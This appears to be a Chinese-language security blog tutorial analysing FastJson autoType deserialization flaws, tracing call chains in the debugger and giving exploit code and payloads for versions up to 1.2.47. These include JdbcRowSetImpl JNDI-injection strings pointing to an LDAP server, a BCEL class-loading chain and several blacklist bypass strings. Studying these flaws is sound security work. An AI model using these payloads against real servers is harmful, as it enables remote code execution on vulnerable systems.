



Java反序列化之FastJson反序列化及绕过

* * *

# Java反序列化之FastJson反序列化及绕过

先抛出一个问题，一个Json解析的功能库，为什么能够代码执行呢

## FastJson解析方式：

### JSON形式解析字符串：

我们先来看一下FastJson的正常解析的使用方法，这里我们可以看到我们将字符串s进行解析然后输出，是以JSON形式进行的输出

```plain
package FastJson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class JSONUnser {
    public static void  main(String[] args) throws Exception{
        String s = "{\"param1\":\"aaa\",\"param2\":\"bbb\"}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
        System.out.println(jsonObject.getString("param1"));
    }
}
//{"param1":"aaa","param2":"bbb"}
//aaa
```

### 指定解析类型解析为对象：

如果我们让他解析的形式是在类中进行解析，令字符串解析成一个Person对象，我们就得到下面对应的结果

```plain
package FastJson;

public class Person {
    private String name;
    private int age;

    public Person(String name, int age){this.name = name;this.age = age;}

    public Person(){System.out.println("constructor");}

    public String getName() {System.out.println("getName");return this.name;}

    public void setName(String name) {System.out.println("setName");this.name = name;}

    public int getAge() {System.out.println("getAge");return this.age;}

    public void setAge(int age) { System.out.println("setAge");this.age = age;}
}
```

```plain
package FastJson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;


public class JSONUnser {
    public static void  main(String[] args) throws Exception{
//        String s = "{\"param1\":\"aaa\",\"param2\":\"bbb\"}";
        String s = "{\"age\":18,\"name\":\"abc\"}";

        Person person = JSON.parseObject(s,Person.class);

        System.out.println(person.getName());
    }
}
/*
constructor
setAge
setName
getName
abc
*/
```

### 根据字符串反序列化任意类：

*   上面是通过操作对应类，从而在类中进行字符串JSON解析生成对象，那如果字符串中前面加了@type，我们可以发现，@type对应的键值是可以直接解析指定的类的，我们可以发现通过传入不同的字符，可以执行不同的代码，这里就相当危险了。
*   至于为什么要引入这个type，我们这里举一个不是很恰当的例子：
*   现在有材料的衣服，一种是布料，一种是速干料，但是两种衣服外表是一样的，在生产过程的标签中（序列化过程），如果不加衣服的材料，在出厂反序列化的过程就会分不清，这样的话就会产生歧义，而如果加上材料，就相当于加上了@type这样的话，我们就可以分清楚衣服的材料对应哪一个衣服，但是又因为@type客户端可控，速干料的衣服就可以被贴上布料的标签，然后以便宜的价格去买到。

```plain
package fastjson;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;


public class JSONUnser {
    public static void  main(String[] args) throws Exception{
/*
        String s = "{\"param1\":\"aaa\",\"param2\":\"bbb\"}";
        String s = "{\"age\":18,\"name\":\"abc\"}";
*/
        String s = "{\"@type\":\"fastjson.Person\",\"age\":18,\"name\":\"abc\"}";

        JSONObject jsonObject = JSON.parseObject(s);

        System.out.println(jsonObject);
    }
}
constructor
setAge
setName
getAge
getName
{"name":"abc","age":18}
```

上面我们就可以发现，通过解析字符串，最后竟然对Person里面的类进行了解析实例化赋值调用操作，赋值要不就是反射赋值，要不就是set函数去改，我们可以发现这里是通过调用Person里面的set函数去进行的赋值。下面我们就来代码调试一下看看这里赋值的逻辑是什么样的。

## 调用流程简单分析：

*   我们在处理字符串的方法`JSON.parseObject`的地方下一个端点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225412-c9152b38-2968-1.png)

*   我们看到最后他转了一个JSONObject：它其实对应的就是一个Map，然后我们跟进parse方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225417-cbfe5e50-2968-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225424-d0a437e0-2968-1.png)

*   这里我们可以看到使用了DefaultJSONParser，这里其实就是对传入的字符串进行解析，一般都使用DefaultJSONParser进行解析，然后我们再跟进下面的parse进入核心的逻辑，调试的东西太多了，这里就主要讲一讲逻辑吧，在解析的过程中，可以分为两个阶段，一个是对字符串形式的判断，是否为json形式，一个是对key和value的获取，先获取key的值，再获取value的值。
*   这里我们关注一点，就是获取key以后，我们获取的应该是@type，会做一个特殊的调整，表示应该做java反序列化还是单纯的json反序列化，这里匹配到@type，所以后续要Java反序列化：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225433-d5e98872-2968-1.png)

*   我们可以看到对类进行了loadClass加载，然后后面我们就要按照Java的逻辑来进行反序列化操作，这里第一步就是获取了反序列化器，然后用反序列化器进行反序列化操作：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230931-eccb29a4-296a-1.png)

*   然后我们就来跟进一下是如何进行反序列化的,重点来关注一下里面的代码,最后会通过JavaBean来解析类

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225507-ea1b5e88-2968-1.png)

*   在创建类的反序列化器的时候，需要把类里面的东西进行了解，这里就通过build函数，我们再来看一下build函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225515-eeb2d96c-2968-1.png)

*   在build整体逻辑中，先遍历了一遍method（set），然后遍历了一遍public fields，然后又遍历了一遍method（get），其中get条件是：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225522-f2b7ce46-2968-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225536-fb828f3e-2968-1.png)

……后面跟的很乱，就不在这里写了，具体后面要用到的基本上已经提到了……

## FastJson漏洞链特点：

根据上文的分析，在反序列化时，parse触发了set方法，parseObject同时触发了set和get方法，由于存在这种`autoType`特性。如果`@type`标识的类中的setter或getter方法存在恶意代码，那么就有可能存在fastjson反序列化漏洞。

首先我们先来总结一下FastJson反序列化和原生反序列化利用不同的点：

*   **FastJson不需要实现Serializable**
    
*   **不需要变量不是transient/可控变量：**
    
    1.  变量有对应的setter
        
    2.  或是public/static
        
    3.  或满足条件的getter(返回值是)：
        

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225652-28dc968c-2969-1.png)

*   **反序列化入口点不是readObject，而是setter或者是getter**
    
*   **执行点是相同的：反射或者类加载**
    

## FastJson<1.2.24：

### JdbcRowSetImpl类+JNDI注入（出网）：

#### 调用链

*   我们首先找到了漏洞的利用点是一个`JNDI`注入：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723225950-92b81dce-2969-1.png)

*   然后我们要看一下`getDataSourceName`下面的参数可不可控，可以看到存在setter方法，所以可控：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230020-a4a147e0-2969-1.png)

*   这里我们就要找一下对应的setter或者是符合条件的getter方法能够调用connect的方法：这里我们找到了三种，因为我们要用get或者是set方法，但是这里的get并不能满足我们上面所说的要求，所以这里我们选择setter方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230047-b48325de-2969-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230054-b8dc871a-2969-1.png)

#### EXP:

*   我们生成一下jndi注入的payload然后导入：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230103-be4be006-2969-1.png)

```plain
package EXP;

import com.alibaba.fastjson.JSON;

public class FastJsonJdbcRowSetlmpl {
    public static void main(String[] args) throws Exception{


//@type调用com.sun.rowset.JdbcRowSetImpl类里面的setter触发connet,connect触发JNDI注入


// 第二个键对传入变量名
        /*
            public void setDataSourceName(String name) throws SQLException {
        */
// 第二个值对应JNDI注入的链接


// 第三个值对应调用connect方法的setAutoCommit
        /*
            public void setAutoCommit(boolean var1) throws SQLException {
        */
// 第三个值传入一个布尔值


        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/rNMfFuPI\",\"AutoCommit\":\"false\"}";

        JSON.parseObject(s);
    }
}
```

#### 限制：

版本限制，依赖限制，出网（JNDI外联）

### FastJsonBcel类+动态类加载（不出网）：

#### 调用链：

我们在jdk的内置类中找到了这样一方法，能够进行动态类加载，就是ClassLoader里面的loadClass方法，在里面调用了defineClass：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230155-dd150508-2969-1.png)

我们先来看一下如何使用这里的动态类加载来加载任意类：

我们想要调defineClass，就要保证clazz不为null，然后我们就要调前面的`createClass`方法，然后里面调用了`decode`方法返回了clazz值，所以我们在编写exp的时候就需要先进行一个`encode`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230203-e210d758-2969-1.png)

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
        //使用BCEL方式动态加载一下
        classLoader.loadClass("$$BCEL$$"+code).newInstance();


    private static byte[] convert(String s) throws Exception{
    }
}
```

然后下面我们就需要考虑如何调用loadClass方法，在tomcat包下面找到了一个BasicDataSource的类，里面调用了forName方法，这里forName方法的底层逻辑其实调用了loadClass方法，所以如果我们让dirverClassLoader等于ClassLoader，让dirverClassName等于我们自己的恶意类，就可以执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230235-f50c7d76-2969-1.png)

然后恰好这两个变量还能够通过setter方法进行可控：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230241-f8f13cba-2969-1.png)

然后我们就来看最后能不能调用到某个setter方法或者getter中，看哪里能够调用forName方法对应的createConnectionFactory方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230247-fc3b3fd8-2969-1.png)

再寻找createDataSource方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230300-0412714a-296a-1.png)

最后我们就找到了getConnetion这个方法，所以单纯的调用流程就是下面这个样子，我们再把他转换为JSON的形式

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName("$$BCEL$$"+code);
        basicDataSource.getConnection();
//        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);

        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }

        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
}
```

#### EXP：

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXPFastJson\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.setDriverClassName("$$BCEL$$"+code);
//        basicDataSource.getConnection();

        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"DriverClassName\":\"$$BCEL$$"+ code +"\",\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";

//      parseObject是先parse后toJSON，这样我们才能调用get方法：getConnection()
        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);
        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }
        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
}
```

## FastJson<=1.2.47绕过：

### 漏洞修复：

我们可以发现在1.2.25中，对`@type`进行了修复，检测了是否能够进行`AutoType`，而1.2.24在这里是直接进行`loadClass`，所以我们就要对这里进行一个绕过，跟进一下这个函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230318-0ee8b8c2-296a-1.png)

### checkAutoType检测流程：

然后我们使用流程图来理解一下里面这个函数里面的逻辑，看看什么时候来进行类的加载：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230324-12283792-296a-1.png)

*   在第一个中，因为在白名单中才能够进行缓存，所以这里不符合要求，第三个同理
*   在第二个返回类当中，期望类为空且类与期望类一致的时候返回类，这里我们的期望类为空，所以这里能够符合条件，所以我们在往上找，只要缓存中存在类，我们就能够进行加载。
*   第四个是基于期望类的，因为这里和期望类并无关所以也满足不了
*   进入false来到第五个，又因为默认情况下AutoType为false，所以也加载不了

### 调用链:

所以能够有可能返回类的只有第二个，我们就来看一下如何在缓存中找到我们想要加载的类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230337-1a14d15e-296a-1.png)

我们跟进getClassFromMapping方法中，从里面找mapping里面的缓存，然后在loadClass中我们可以发现是有可能对类进行控制的，其他地方都是指定了一些基础类进行的缓存，而loadClass这里只要我们加载类成功以后，他就会放入缓存中，下次调用直接从缓存中进行加载，这里我们就要想怎么才能够在loadClass的时候将我们的类加载入缓存当中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230445-427942ec-296a-1.png)

根据图片里面的调用点我们最后确定了MiscCodec里面的deserialize函数中，当clazz==Class.class的时候会进行调用，然后我们来观察MiscCodec可以发现，他继承了反序列化和序列化的接口，在fastJson的反序列化中也会把他当作反序列化器来进行调用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230458-4a7e5a2c-296a-1.png)

所以如果FastJson反序列化的类是属于Class.class的时候，就会调用MiscCodec反序列化器，然后调用loadClass，传入我们想传入的字符串strVal，然后在loadClass中作为String className进行加载并放在缓存里面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230507-4f8b3c6a-296a-1.png)

具体赋值我们可以看这个位置：我们可以看到这里的`parser`对应的就是后面的`lexer.stringVal`比较，必须满足是val才能够不抛出异常，所以我们就让string=val就可以，然后后面我们对应反序列化的内容为恶意类就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230513-530ea02a-296a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230516-5549919c-296a-1.png)

### EXP：

```plain
package EXPFastJson;

import com.alibaba.fastjson.JSON;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个Class类，值为恶意类
        //用之前payload从缓存中继续加载
        String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/cgQuBZlq\",\"AutoCommit\":\"false\"}}";
        JSON.parseObject(s);
    }
}
```

### 调试：

我们第一步是加载Class类，可以看到在缓存当中找到了，然后最后返回了Class类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230524-59d6854e-296a-1.png)

第二步我们就查到了对应的反序列化器是MiscCodec，然后调到MiscCodec类下的deserialze函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230529-5cb9e102-296a-1.png)

然后在这里判断lexer.stringVal()里面是否存在val，不存在就抛出异常

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230534-5fcdb328-296a-1.png)

然后将我们的恶意类放入strVal里面进行loadClass加载，这里我们也可以发现在开启AutoTyoe的时候也存在绕过黑名单的一个形式：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230540-6312c8ca-296a-1.png)

所以这样的话mapping就有了我们加载的恶意类，然后在调用之前的恶意类我们就能够直接进行加载了。

## FastJson1.2.25-1.2.41绕过：

我们上面提到了在缓存中获取类的下面有两个判断，也就是说在我们开启AutoType的情况下可以用下面两种方式来进行绕过：

*   如果以`[`开头则去掉`[`后进行类加载（在之前Fastjson已经判断过是否为数组了，实际走不到这一步）
*   如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载

所以我们用下面这个就可以绕过黑名单进行加载，开启AutoType：

```plain
import com.alibaba.fastjson.parser.ParserConfig;
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

```plain
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","DataSourceName":"ldap://127.0.0.1:8085/rNMfFuPI","AutoCommit":"false"}
```

```plain
package EXPFastJson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个Class类，值为恶意类
        //用之前payload从缓存中继续加载
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

//        String s="{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":false}}";
        String s="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":1}";
        JSON.parseObject(s);
    }
}
```

## FastJson1.2.42绕过：

1.2.42相较于之前的版本，关键是在`ParserConfig.java`中修改了1.2.41前的代码

*   对于传入的类名，删除开头`L`和结尾的`;`

但是可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;`，双写可以绕过。

```plain
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

## FastJson1.4.43绕过：

1.2.43版本修改了`checkAutoType()`的部分代码，对于LL等开头结尾的字符串抛出异常，这里我们就可以用`[`和`{`进行绕过：

```plain
{"@type":"[com.sun.rowset.JdbcRowSetImpl","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230552-6a7b137e-296a-1.png)

看到报错提示，期待出现\[，但是出现了两个逗号，所以我们在后面再加一个\[：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230558-6e4bfa86-296a-1.png)

然后我们再按他说的在后面再加一个{：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723230604-71713f28-296a-1.png)

成功执行。

FastJson的版本绕过除了1.2.47之外，还有两个版本的绕过，这次就先了解到这里，后面一段时间去学取证，等有空回来再继续啃Java。

参考文章：  
[https://boogipop.com/2023/03/02/FastJson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/](https://boogipop.com/2023/03/02/FastJson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)  
[https://goodapple.top/archives/832](https://goodapple.top/archives/832)
